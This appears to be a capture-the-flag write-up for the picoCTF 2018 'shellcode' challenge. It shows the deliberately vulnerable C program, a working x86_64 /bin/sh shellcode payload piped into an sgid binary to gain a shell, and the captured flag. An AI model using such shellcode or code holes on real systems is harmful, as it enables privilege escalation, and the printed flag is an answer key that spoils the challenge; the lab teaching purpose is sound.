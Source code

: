 ```yaml
---
layout: writeup
title: 'Binary Exploitation 200: shellcode'
level: 
difficulty: 
points: 
categories: []
tags: []
flag: picoCTF{shellc0de_w00h00_9ee0edd0}
---
```

## Challenge

This [program](writeupfiles/vuln2) executes any input you give it. Can
you get a shell?

You can find the program in
`/problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed` on the shell
server.

[Source](writeupfiles/vuln2.c)

## Solution

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    
    #define BUFSIZE 148
    #define FLAGSIZE 128
    
    void vuln(char *buf){
      gets(buf);
      puts(buf);
    }
    
    int main(int argc, char **argv){
    
      setvbuf(stdout, NULL, _IONBF, 0);
    
      // Set the gid to the effective gid
      // this prevents /bin/sh from dropping the privileges
      gid_t gid = getegid();
      setresgid(gid, gid, gid);
    
      char buf[BUFSIZE];
    
      puts("Enter a string!");
      vuln(buf);
    
      puts("Thanks! Executing now...");
    
      ((void (*)())buf)();
    
      return 0;
    }
{: .language-c}

This code executes whatever machine instructions we give it.

We connect to the remote shell and have a look:

    $ cd /problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed
    $ ll
    ll
    total 776
    drwxr-xr-x   2 root       root          4096 Sep 28 08:11 ./
    drwxr-x--x 576 root       root         53248 Sep 30 03:45 ../
    -r--r-----   1 hacksports shellcode_0     34 Sep 28 08:11 flag.txt
    -rwxr-sr-x   1 hacksports shellcode_0 725408 Sep 28 08:11 vuln*
    -rw-rw-r--   1 hacksports hacksports     562 Sep 28 08:11 vuln.c
{: .language-bash}

So we want to read the file `flag.txt`, but do not have the right
permissions.  
Because the executable `vuln` has the `sgid bit` set, we need to get it
to  
read the contents for us.

Since the program executes any assembly code we give it, we can make it
spawn us a  
shell, retaining its escalated permissions, so that we can read the
flag. There are  
many online collections of such shellcode. We find a shellcode on  
[Shellstorm][1].

We first need to find the architecture of the remote machine

    $ uname -a
    Linux pico-2018-shell-1 4.4.0-1067-aws #77-Ubuntu SMP Mon Aug 27 13:22:03 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

Okay, it's `Linux x86_64`. We find a shellcode on shellstorm in that
category, we use  
[this one][2] but any executing  
a call to `/bin/sh` will do.

We write the shellcode to a file and then use the following syntax to
execute it:

    $ cat ~/shellcode.txt - | ./vuln

to keep the shell waiting for stdin or else it will close immediately.

Here we go:

    $ python -c "print('\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xf
    e\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81')" > ~
    /shellcode.txt
    
    $ cat ~/shellcode.txt - | ./vuln
    Enter a string!
    1V_ȈF22i0tii0cjo΁
    Thanks! Executing now...
    
    ls
    flag.txt  vuln  vuln.c
    cat flag.txt
    picoCTF{shellc0de_w00h00_9ee0edd0}
{: .language-bash}



[1]: http://shell-storm.org/shellcode/
[2]: http://shell-storm.org/shellcode/files/shellcode-690.php
